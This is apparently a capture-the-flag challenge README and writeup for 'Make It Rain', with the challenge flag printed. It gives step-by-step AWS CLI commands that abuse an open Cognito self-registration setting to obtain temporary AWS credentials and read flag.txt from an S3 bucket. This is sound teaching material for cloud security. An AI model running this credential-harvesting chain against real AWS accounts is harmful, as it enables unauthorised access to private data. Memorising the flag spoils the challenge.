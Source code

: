 # Challenge Name
Make It Rain

### Description
We built secure vault to store our secret flag but somehow got the blueprint of the vault leaked.Can you help us to retrieve the secret flag from the vault?

### Difficulty
5/10

### Flag
PCTF{G14d_th4T_y0u_tR13d!}

### Hints
None

### Author
__iAmPradeep

### Tester
Biplav

### Writeup
The goal of this challenge is to access a file (flag.txt) stored in an Amazon S3 bucket by authenticating via Cognito, retrieve temporary AWS credentials, and use the credentials to read the flag from S3.

The misconfiguration is due to default public registration policy. It allows anyone to register to the Cognito user pool. That allows temporary credentials to the pool which allows access to the restricted resources.

### Solve Steps
# Get client-id from terraform file and use real email to receive the registration code
1. `aws cognito-idp sign-up  --client-id 4bjmgsip08ah118ugkau5p946b --username masoncc --password 'MasonCC' --user-attributes Name="email",Value="admin@masoncc.com" --region us-east-1`

# Get the registration code from the email
2. `aws cognito-idp confirm-sign-up --client-id 4bjmgsip08ah118ugkau5p946b --username masoncc --confirmation-code 133713 --region us-east-1`

# Login and Get id-token
3. `aws cognito-idp initiate-auth --region us-east-1 --auth-flow USER_PASSWORD_AUTH --client-id 4bjmgsip08ah118ugkau5p946b --auth-parameters USERNAME=masoncc,PASSWORD=MasonCC`

# Using id-token value, Get Cognito Id for authentication
4.`aws cognito-identity get-id --identity-pool-id "us-east-1:b73a3094-c689-47e2-b9c4-311d5b7ee1ee" --region "us-east-1" --logins cognito-idp.us-east-1.amazonaws.com/us-east-1_uSid13Z6L=id-token-output-value-from-previous-step`

# Get Credentials For Identity using identity-id that we got from last step 
5. `aws cognito-identity get-credentials-for-identity --identity-id identity-id-output-value-from-last-step --logins cognito-idp.us-east-1.amazonaws.com/us-east-1_uSid13Z6L=id-token-output-value-from-step-3`

# USE AWS SECRETS and use AWS cli 
`export AWS_ACCESS_KEY_ID=`
`export AWS_SESSION_TOKEN=`
`export AWS_SECRET_ACCESS_KEY=`
`aws s3 cp s3://patriot-ctf-cloud-ctf-challenge/flag.txt -`

# That should give the flag
`PCTF{G14d_th4T_y0u_tR13d!}`

# Solver script and gif is in the `solve` directory
## Run Steps 1 and 2 Manually.
## Goto solve directory, and in the solve script replace username and passsword.
## Run the script
